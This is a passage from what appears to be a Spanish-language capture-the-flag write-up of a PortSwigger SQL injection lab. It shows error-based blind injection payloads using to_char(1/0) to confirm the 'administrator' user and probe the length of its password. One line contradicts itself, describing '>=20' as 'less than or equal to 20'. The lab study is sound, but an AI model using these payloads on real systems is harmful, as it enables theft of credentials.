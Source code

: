 
La consulta intenta forzar un error de división por cero. Primero, verifica si hay un usuario con el nombre (`administrator`). Si el usuario existe, la parte `to_char(1/0)` se ejecuta provocando un error, ya que se intenta dividir por cero.

```sql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||'
```

![](/assets/img/ps-writeup-sqli/ps-lab12_13.png)

El codigo de estado `500 "Internal Server Error"` me indica que la contraseña tiene una longitud de caracteres menor o igual a 20 (`>=20`).

```sql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)>=20)||'
```
